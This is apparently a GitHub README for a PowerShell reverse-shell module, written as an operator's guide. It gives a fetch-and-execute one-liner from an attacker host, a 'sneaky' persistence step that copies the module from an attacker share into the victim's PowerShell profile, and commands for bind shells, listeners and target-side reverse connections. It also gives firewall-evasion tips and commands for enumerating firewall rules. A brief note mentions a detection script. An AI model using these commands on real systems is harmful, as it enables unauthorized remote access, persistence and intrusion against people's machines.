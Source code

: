 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell. Invoke-ReversePowerShell function can be used
to connect to Start-Listener as well as netcat and metasploit modules however it can not connect to Start-Bind.
I will add a tool for that in the future. This is a PowerShell module meaning it only contains functions/cmdlets to be imported into a PowerShell session. If you wish to execute one of the commands whenever the file is run just add the command you wish to execute to the bottom of the file.

#### BLUE TEAM DISCOVERY
Find-ReverseShell.psm1 can be used to search the Windows Event Log for when a Reverse Shell is created that uses a System.Net.Sockets.TcpListener object. This will discover any reverse shell that creates a TcpListener object and not just the below module. This method does not catch PowerCat.ps1 which I am still looking for a good way to discover. This part is still a work in progress.

#### WAYS TO INSTALL OR IMPORT THE MODULE
This is not a requirement. It just a way of saving the module to your device if you wish to keep it around for use at later times.
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 "$env:USERPROFILE\\WindowsPowerShell\\Modules\\ReversePowerShell"
 For PowerShell Core v6 the location of this module will need to be
 "$env:USERPROFILE\\WindowsPowerShell\\ReversePowerShell"

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

If your are able to use Invoke-Expresion (IEX) this module can be imported using the following command.
You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.
```powershell
IEX (New-Object -TypeName Net.WebClient).downloadString("http://<attacker ipv4>/ReversePowerShell.psm1")
```

IEX is blocked from users in most cases and Import-Module is monitored by things such as ATP. Downloading files to a targerts machine is not always allowed in a penetration test. Another method to use is Invoke-Command. This can be done using the following format.
```powershell
Invoke-Command -ComputerName <target device> -FilePath .'\ReversePowerShell.ps1m' -Credential (Get-Credential)
```
This will execute the file and it's contents on the remote computer. 

Another sneaky method would be to have the function load at the start of a new PowerShell window. This can be done by editing the $PROFILE file.
```powershell
Write-Verbose "Creates powershell profile for user"
New-Item -Path $PROFILE -ItemType File -Force
#
# The $PROFILE VARIABLE IS EITHER GOING TO BE 
#    - C:\Users\<username>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
# OR
#    - C:\Users\<username>\OneDrive\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1
#
# Write-Verbose "Turning this module into the PowerShell profile will import all of the commands everytime the executing user opens a PowerShell session. This means you will need to open a new powershell session after doing this in order to access the commands. I assume this can be done by just executing the "powershell" command though you may need to have a new window opened or new reverse/bind shell opened. You can also just reload the profile
cmd /c 'copy \\<attacker ip>\MyShare\ReversePowerShell.ps1 $env:USERPROFILE\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.psm1

powershell.exe
# If that does not work try reloading the user profile.
& $PROFILE
```

#### START BIND SHELL
The below command can be executed to start a bind shell that connects the defined port to PowerShell.
This command binds PowerShell to port 8088. I do not have a function that can connect to this. Netcat,
ncat, metasploit, and other tools can be used to connect to this bind shell. I will add a tool in the
future.
```powershell
Start-Bind -Port 8088
```

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089. This can be
connected too using Invoke-ReversePowerShell as well as ncat, netcat, metasploit, and other tools.
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener over
port 8089. This will not be able to complete a connection to the Start-Bind cmdlet.
```powershell
Invoke-ReversePowerShell -IpAddress 192.168.0.10 -Port 8089
```
---
#### FIREWALL AND BLOCKED PORTS
If you are not able to gain a connection it is most likely due to the Windows Firewall. If you have access on a machine as a user you will not be able to make firewall changes. You need admin priviledges for that. Use the high range ports RPC would connect to or other common port. If a range has been defined you can find the allowed ports at "HKLM:\Software\Microsoft\Rpc\Internet\ with Entry name Data Type". Otherwise when not defined any ports between 49152-65535 might work.
This command may also display the port allowed RPC port range
```cmd
netsh int ipv4 show dynamicport tcp 
```

The following commands can be used to view firewall rules. If one of these does not work.
the other might.
```powershell
# This way should work to display the firewall even if you are a user
$FirewallRule = New-Object -ComObject HNetCfg.FwPolicy2
$FirewallRule.Rules | Select-Object -Property *

# OR
Get-NetFirewallRule | Where-Object { $_.Enabled –eq ‘True’ –and $_.Direction –eq ‘Inbound’ }
Show-NetFirewallRule

# OR
cmd /c netsh advfirewall firewall show rule name=all
```

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
